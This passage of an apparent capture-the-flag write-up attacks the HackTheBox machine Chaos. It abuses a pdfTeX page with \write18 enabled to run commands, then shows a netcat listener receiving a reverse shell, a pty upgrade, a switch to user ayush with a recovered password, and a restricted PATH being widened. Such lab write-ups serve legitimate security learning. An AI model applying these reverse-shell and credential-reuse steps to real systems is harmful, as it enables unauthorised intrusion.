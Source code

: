 ~~~
Thanks,
Ayush
{% endhighlight %}

Sounds like we have something interesting in address "http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3"<br>
We have to add following line in "/etc/hosts" for name resolution.
{% highlight shell %}
10.10.10.120	chaos.htb
{% endhighlight %}

We have an interesting page to create a pdf file there.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-08/2019-06-08-09-56-06.png)

If we see the response, we can figure out this page is using pdfTex version 3.14159265-2.6-1.40.19
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-08/2019-06-08-08-58-53.png)

At the same time, we can find a line "\write18 enabled".<br>
This means, we can execute shell command by having a payload and push the button "Create PDF".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-08/2019-06-08-09-11-41.png)
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.120] 49920
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

Then, get a full shell as ayush.
{% highlight shell %}
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$

www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ su - ayush
Password: jiujitsu

ayush@chaos:~$
{% endhighlight %}

However, we don't have appropriate value in $PATH.<br>
We have to modify the value.
{% highlight shell %}
ayush@chaos:~$ ls
ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found

ayush@chaos:~$ echo $PATH
echo $PATH
/home/ayush/.app
{% endhighlight %}

By export command, we can put some additional value and it enables other shell command.<br>
"User.txt" is in the directory "/home/ayush".
{% highlight shell %}
ayush@chaos:~$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

ayush@chaos:~$ echo $PATH
~~~